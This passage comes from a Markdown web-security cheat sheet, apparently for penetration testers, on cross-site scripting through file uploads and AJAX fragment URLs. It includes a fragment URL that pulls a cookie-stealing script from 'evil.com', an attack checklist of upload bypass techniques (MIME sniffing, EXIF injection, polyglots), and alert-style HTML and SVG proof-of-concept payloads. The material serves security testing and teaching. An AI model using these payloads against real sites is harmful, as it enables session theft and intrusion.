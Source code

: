 
## 🧠 BONUS: Remote File Inclusion via Fragment Abuse

HTML5 allows **cross-domain AJAX** (CORS-based), so an attacker can host a malicious file:

```html
<script>stealCookies()</script>
```

And point the app’s AJAX fragment to it:

```
https://target.com/#https://evil.com/xss.html
```

If the app **does not validate that the fetched resource is on the same origin**, boom — **remote XSS**.

---

## 🛠️ Attack Checklist

| ✅ Test Case                                      | ✅ Technique              |
| ------------------------------------------------ | ------------------------ |
| Upload `.html` file with `<script>`              | Stored XSS               |
| Upload `.jpg` containing `<script>`              | MIME sniffing abuse      |
| Upload renamed `.html` → `.txt`, `.jpg`, `.svg`  | Extension-based bypass   |
| Check headers: Content-Type, Content-Disposition | Confirm browser behavior |
| Inject into image metadata (EXIF)                | Hidden payload           |
| Use `#fragment` URLs with AJAX routes            | DOM-based XSS            |
| Try hybrid file formats (GIFAR, etc.)            | Legacy attack chain      |
| Bypass with polyglots                            | SVG, PDF, JSON+JS        |

---

## 🧪 PoC Examples

### 1. Simple `.html` upload

```html
<script>alert(document.domain)</script>
```

### 2. Obfuscated SVG payload

```xml
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
```
